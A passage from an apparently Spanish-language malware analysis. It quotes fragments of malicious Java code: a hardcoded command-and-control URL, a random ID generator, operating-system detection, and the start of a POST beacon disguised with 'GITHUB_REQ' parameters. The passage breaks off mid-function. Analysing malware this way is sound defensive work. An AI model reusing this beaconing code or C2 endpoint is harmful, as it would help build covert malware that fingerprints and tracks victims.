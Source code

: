 - Declara una variable String donde almacena una URL maliciosa, seguramente su servidor de Comando y Control (C2).

```java
private static final String POST_URL = "https://www.git-hub.me/view.php";
```

- Declara una String compuesta por ocho números aleatorios, utilizado posteriormente para crear directorios temporales con nombres únicos.

```java
private static String randGen() throws IOException {
  String strPool = "123456789";
  StringBuilder sb = new StringBuilder();
  Random rand = new Random();

  for (int i=0; i<8; i++){
      sb.append(strPool.charAt(rand.nextInt(strPool.length())));
  }

  return sb.toString();
}
```

- Identifica - nuevamente en forma rudimentaria - sobre qué plataforma se está trabajando.

```java
private static String getOperatingSystem() {
  String os = System.getProperty("os.name");
  String result = null;

  if (os.contains("Windows"))
      result = "0";
  else if (os.contains("Linux"))
      result = "2";
  else if (os.contains("Mac OS X"))
      result = "1";
  return result;
}
```

- Crea - pero no envía aún - una solicitud POST hacia el sitio malicioso mencionado anteriormente, consignando un `uid` (User-ID) generado aleatoriamente y el sistema operativo detectado. Disfraza esta información con parámetros como `GITHUB_REQ` para que ante un eventual análisis del tráfico la solicitud aparente ser benigna.

```java
private static void sendPOST() throws IOException {
        String uid = randGen();
        StringBuilder data = new StringBuilder();
        String sec_path = "";
        data.append("GITHUB_REQ");
        data.append(uid);
        data.append("2000");
        data.append(getOperatingSystem());
```
